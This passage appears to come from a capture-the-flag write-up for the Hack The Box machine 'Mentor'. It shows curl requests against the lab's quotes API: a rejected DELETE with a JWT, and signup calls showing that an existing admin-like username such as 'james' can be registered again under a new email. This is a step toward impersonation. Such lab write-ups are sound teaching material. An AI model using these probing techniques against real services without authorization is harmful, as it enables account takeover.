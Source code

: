 Nor delete them
```bash
curl -siX 'DELETE' \
  'http://api.mentorquotes.htb/quotes/1/' \
  -H 'accept: application/json' \
  -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InpvaW5rZXJzIiwiZW1haWwiOiJ6b2lua3NAbWVudG9ycXVvdGVzLmh0YiJ9.Bh1vCttx8SfgZ89fN-51AHW5pwzh_14bt6JnWMJ02EM' \
  -H 'Content-Type: application/json'\
  -d '{
  "title": "zoink",
  "description": "zoink"
}'
```
```
HTTP/1.1 403 Forbidden
Date: Sun, 19 Feb 2023 12:00:11 GMT
Server: uvicorn
content-length: 54
content-type: application/json

{"detail":"Only admin users can access this resource"}
```


Looks like we can't reregister an email address that was already taken
```bash
curl -sX 'POST' \
  'http://api.mentorquotes.htb/auth/signup' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "email": "james@mentorquotes.htb",
  "username": "james",
  "password": "zoinkers"
}' |\
jq "."```
```json
{
  "detail": "User already exists! "
}
```

But we can reregister a username that was already taken
```bash
curl -sX 'POST' \
  'http://api.mentorquotes.htb/auth/signup' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "email": "zarfl@mentorquotes.htb",
  "username": "james",
  "password": "zoinkers"
}' |\
jq "."
```
```json
{
  "id": 9,
  "email": "zarfl@mentorquotes.htb",
  "username": "james"
}
```
